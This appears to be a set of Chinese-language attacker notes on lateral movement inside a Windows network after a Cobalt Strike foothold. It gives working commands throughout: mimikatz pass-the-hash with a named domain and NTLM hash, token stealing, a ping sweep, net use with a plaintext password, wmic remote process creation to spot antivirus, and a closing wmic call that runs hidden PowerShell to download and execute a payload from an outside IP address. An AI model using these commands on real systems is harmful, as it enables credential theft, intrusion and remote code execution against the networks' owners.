


内网PTH横向
cs上线一台机器后，arp-a 查看内网ip然后dump hash
**上线的机器的Token令牌必须完整才能dump机器的hash，不管上线的机器的用户是不是administrator-SID=500，只要令牌完整，能dump上线机器的hash，都可以利用dump下来的administrator的账号和hash去PTH，被攻击的机器的500用户必须开启，且被攻击用户的账号和密码一样
mimikatz制作token
借用上线的这台机器的administrator的hash去横向移动
**要开debug这个令牌

mimikatz sekurlsa::pth /user:SV-ERP02VM$ /domain:central.com.br /ntlm:9c1bc2bde661c799ff1796d2ff07e714 /run:"cmd -w hidden"
生成administrator的pid /直接ps查看进程，找到administrator的进程pid，低权限用户不能借高权限的令牌。

直接ps查看进程偷取这个pid的token也阔以
steal_token 3316 beacon
返回之前的token
rev2self
ping命令探测主机
for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.2.%I | findstr "TTL="
dir \\10.42.181.10\c$
接着去测试内网其他地址的administrator的hash是否和拿到的机器的哈希一样，如果一样，则可以利用上述命令列出对面机器的路径。（正常情况下是要对方机器的账号密码才能进行执行对方机器的命令），但是在administrator的hash一样的情况下，可以直接查看
administrator的hash不一样或者没用administrator的情况下
要用账号密码建立连接连接再执行命令
net use \\192.168.17.138\c$ "admin123" /user:pt007
dir \\192.168.17.138\c$
判断出可以进行远程执行命令的时候可往对方机器执行一个cmd命令tasklist查看进程再重定向到一个文件
shell wmic /node:10.41.18.3 process call create "cmd.exe /c tasklist>c:\result.txt"
再查看这个result.txt，查看进程里面有没有杀毒软件，卡巴斯基是avp.exe
shell type \\10.44.171.3\c$\result1.txt
直接tasklist /v 可以看到哪个用户启动的进程
也可以支持远程查看
tasklist /s:ip /v
测试wmic
shell wmic /node:10.49.171.231 os get name
然后利用wmic创建进程在对方的cmd执行cs生成的powershell
shell wmic /node:10.44.171.232 process call create "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://44.12.30.175:80/a'))\""